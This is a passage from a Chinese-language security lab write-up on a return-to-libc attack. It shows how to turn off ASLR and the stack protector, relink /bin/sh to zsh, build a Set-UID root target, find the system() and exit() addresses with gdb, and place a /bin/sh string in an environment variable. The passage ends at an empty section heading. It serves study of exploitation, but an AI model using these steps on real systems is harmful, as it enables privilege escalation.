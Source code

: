 # Environment Setup

- 使用-m32标志编译为32位的程序
- 关闭地址随机化：`sudo sysctl -w kernel.randomize_va_space=0`
- 使用`-fno-stack-protected` 选项在编译期间禁用StackGuard保护，比如`gcc -m32 -fno-stack-protector example.c`

- 程序(和共享库)的二进制映像必须声明它们是否需要可执行堆栈。通过在程序头中标记一个字段来决定这个正在运行的程序的堆栈成是可执行的/不可执行的。最近版本的Ubuntu默认程序堆栈是不可执行的，可以通过`-z execstack`选项来使得堆栈可执行
- 为了简化攻击难度，我们需要将/bin/sh指向/bin/zsh。在 Ubuntu 20.04中，/bin/sh 符号链接指向/bin/dash shell，此shell具有保护机制：如果dash是在 Set-UID 进程中执行的，那么它会立即将有效用户 ID 更改为实际用户 ID，也即是会放弃其特权。`sudo ln -sf /bin/zsh /bin/sh`

综上：

```shell
sudo sysctl -w kernel.randomize_va_space=0

sudo ln -sf /bin/zsh /bin/sh

gcc -m32  -fno-stack-protector -z noexecstack -o retlib retlib.c

sudo chown root retlib

sudo chmod 4755 retlib

touch badfile 

./retlib
```



# Task 1: Finding out the Addresses of libc Functions

在 Linux 中，当一个程序运行时，libc 库将被加载到内存中。当内存地址随机化被关闭时，对于同一个程序，库总是加载在相同的内存地址中(对于不同的程序，libc 库的内存地址可能是不同的)。因此，我们可以使用 gdb 这样的调试工具轻松找到 system ()的地址

可以将gdb的批处理命令写在gdb_command.txt中，然后输入

```shell
gdb -q -batch -x gdb_command.txt ./retlib
```

gdb_command.txt：

```
break main
run
p system
p exit
quit
```

system地址：0xf7e11420

exit地址：0xf7e03f80

# Task 2: Putting the shell string in the memory

我们的目的是触发system()函数，且参数是`/bin/sh`，这样就可以得到shell。因此，我们必须先知道字符串`/bin/sh`的地址

可以使用环境变量的方式实现上述目标

```shell
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
```

编写程序./prtenv打印出`/bin/sh`字符串所在地址，注意到文件名和retlib必须都是相同字符数目

```c
#include<stdio.h>

void main(){
    char* shell = getenv("MYSHELL");
    if (shell)
    	printf("%x\n", (unsigned int)shell);
}
```

得到地址为`ffffd45d`





# Task 4: Defeat Shell’s countermeasure






















